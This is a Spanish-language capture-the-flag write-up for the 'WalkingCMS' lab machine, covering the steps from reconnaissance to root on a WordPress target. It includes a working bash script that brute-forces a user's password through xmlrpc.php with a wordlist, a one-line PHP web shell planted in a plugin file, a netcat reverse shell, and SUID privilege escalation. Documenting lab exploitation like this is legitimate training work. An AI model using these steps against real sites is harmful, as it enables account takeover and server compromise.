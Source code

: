 # WalkingCMS

![Image](https://github.com/user-attachments/assets/5b69884b-8ee4-48e0-8540-858643a14838)

## Reconocimiento

Tras comprobar que tenemos conectividad con la máquina procedemos a escanear los puertos que están abiertos con **Nmap**:

![Image](https://github.com/user-attachments/assets/62e1968c-ae48-4917-937d-8e166838c1cc)

En este primer escaneo podemos observar, por un lado que se trata de una máquina Linux (debido al TTL de 64) y por otro que tiene el servicio HTTP activo por el puerto 80.

![Image](https://github.com/user-attachments/assets/0f9b5813-7821-488d-bd43-d3365a7eb142)

En este segundo escaneo obtenemos más información sobre este servicio, como la versión de Apache o la distribución de Linux (en este caso un Debian).

Con la herramienta **WhatWeb** podemos identificar las tecnologías que está utilizando este servicio web, aunque en esta ocasión no nos sirve de mucha ayuda:

![Image](https://github.com/user-attachments/assets/2b16c429-5f50-4b51-a9eb-6842a77f410e)

Un primer vistazo a la web nos confirma que esta URL no tiene nada de interés, puesto que se trata del clásico archivo index de apache:

![Image](https://github.com/user-attachments/assets/9f8a5e6b-c074-4f21-ae6c-43459e07bbf9)

Es momento de hacer Fuzzing para identificar directorios expuestos, para lo cual utilizamos **gobuster**:

![Image](https://github.com/user-attachments/assets/d2ba9d3f-a2a8-4bd0-b438-9112ad239a6a)

De esta forma descubrimos que hay un WordPress corriendo:

![Image](https://github.com/user-attachments/assets/9f71ce2f-6113-4be3-9f5d-598dba0804fe)

Toca volver a hacer Fuzzing para descubrir nuevos directorios expuestos y utilizar la herramienta **WpScan** para encontrar posibles vulnerabilidades:

![Image](https://github.com/user-attachments/assets/1f58e48d-e518-47c5-a3fb-3ce54871e7c7)

Como podemos observar en los resultados obtenidos hay una ruta */wp-admin* que contiene un panel de autenticación.

Utilizamos el siguiente comando de **WpScan** (en este caso tengo guardado el token de la app en una variable de entorno por lo que será necesario que configuréis esto para que funcione, sino siempre podéis incluir ahí vuestro token personal):

![Image](https://github.com/user-attachments/assets/42efdba4-a07f-4bc2-a6c1-8df0d3aba2fb)

Tras ejecutar el comando podemos observar tanto un usuario *Mario*, como que el archivo *xmlrpc.php* está expuesto:

![Image](https://github.com/user-attachments/assets/ebcf4952-e42f-4de3-89d2-cad756167d73)

![Image](https://github.com/user-attachments/assets/4a75e2a7-f1bc-477a-aa28-4514b8ce5cac)

Basandonos en la información de la siguiente página [explotación archivo xmlrpc.php](https://nitesculucian.github.io/2019/07/02/exploiting-the-xmlrpc-php-on-all-wordpress-versions/) podemos utilizar este archivo y este usuario para crear un script que nos proporcione la contraseña de dicho usuario. Pero primero realizamos una consulta a la dirección donde se aloja el xmlrpc.php creando un archivo file.xml de prueba (en este caso nos aprovechamos del método wp.getUsersBlogs):

```
 <?xml version="1.0" encoding="UTF-8"?> <methodCall> <methodName>wp.getUsersBlogs</methodName> <params> <param><value>mario</value></param> <param><value>ejemplo</value></param> <
       │ /params> </methodCall>
```

Comprobando el resultado de la respuesta podemos adaptar nuestro script:

![Image](https://github.com/user-attachments/assets/52809f57-5c83-4310-991a-3d3f35de4638)

Por lo que nuestro script quedaría de la siguiente forma:

```Bash
#!/bin/bash

function ctrl_c(){
    echo -e "Saliendo..."
    exit 1
}

trap ctrl_c SIGINT

function createXML(){
    password=$1

    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>mario</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""

    echo $xmlFile > file.xml

    response=$(curl -s -X POST "http://172.17.0.2/wordpress/xmlrpc.php" -d@file.xml)

    if [ ! "$(echo $response | grep 'Nombre de usuario o contraseña incorrectos.')" ]; then
        echo -e "\n[+] La contraseña para el usuario mario es $password"
        exit 0
    fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
    createXML $password
done
```

Tras ejecutar el script descubrimos que la contraseña para el usuario es *love*

![Image](https://github.com/user-attachments/assets/039c1cb1-1b9c-4254-b7e6-3bbd1ea860f2)

## Explotación

Una vez hemos obtenido las credenciales nos autenticamos en el panel descubierto anteriormente y procedemos a buscar nuevas vulnerabilidades que nos permitan obtener acceso a la máquina. Para ello nos buscamos los plugins instalados y haciendo uso de uno llamado *Akismet* modificamos el código de su archivo *akismet.php* para que nos permita ejecutar comandos:

```Php
// Solamente incluiríamos esta linea de codigo
system($_GET['cmd']);
```

![Image](https://github.com/user-attachments/assets/70153d0b-4820-4e4b-83ab-68e4d623a68a)

Una vez comprobado que podemos ejecutar comandos como "id" o "whoami" procedemos a entablarnos una reverse shell tras ponernos en escucha con netcat por el puerto 433 (se suele emplear el 443 pero en este caso es una errata):

![Image](https://github.com/user-attachments/assets/333d23fc-acba-4096-9807-4fa005e49275)

## Escalada de privilegios

Tras ganar acceso a la máquina debemos hacer un tratamiento de la tty para poder trabajar de una manera más eficiente y clara. Para esto tendremos que utilizar los siguientes comandos:

- `script /dev/null -c bash`
- ctrl + z (para poner el proceso en segundo plano)
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows x columns y` (donde x e y son las filas y columnas de tu terminal habitual, para comprobarlo utiliza en una consola aparte stty size)

Ahora que estamos en condiciones de proseguir podemos buscar la forma de escalar privilegios, para ello buscamos la presencia de archivos SUID de los que nos podamos aprovechar y encontramos que el binario *env* tiene permiso SUID:

![Image](https://github.com/user-attachments/assets/de3d102c-2528-49f4-bd74-246f8e2491c9)

De esta forma podemos recurrir a páginas como [GTFOBins](https://gtfobins.github.io/) que contemplan diversos archivos de los que nos podemos aprovechar según los permisos que tengan para escalar privilegios. Solamente tendríamos que ejecutar el siguiente comando y nos convertiríamos en *root*.

![Image](https://github.com/user-attachments/assets/fb03c526-d104-45ed-b728-b4c4abbfa002)

Con esto tendríamos control total sobre la máquina.
